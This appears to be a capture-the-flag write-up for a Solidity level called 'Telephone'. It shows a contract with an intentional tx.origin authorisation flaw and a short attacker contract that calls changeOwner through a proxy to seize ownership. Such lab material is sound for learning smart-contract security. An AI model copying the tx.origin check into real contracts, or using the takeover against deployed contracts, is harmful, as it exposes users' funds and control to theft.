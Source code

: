 # Challenge 4

<img src="./images/BigLevel4.svg" alt="4" >

 ```solidity
 // SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {

  address public owner;

  constructor() {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
} 
 ```

Challenge
---

> Claim ownership of the contract below to complete this level.

1. msg.sender - caller of the function.
2. tx.origin - tx.origin is the original sender of a transaction.

Solution
---
1. tx origin attack is like phising attack. here's code to your solution.
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract TelephoneAttack {
    Telephone telephone;

    constructor(address _addr){
        telephone = Telephone(_addr);
    }

    function solveChangeOwner() public {
        telephone.changeOwner(msg.sender);
    }

}
```
2. We made new contract and call the `solveChangeOwner()` so we can claim the owership of the Telephone contract. you can submit the instance and you will pass the test.
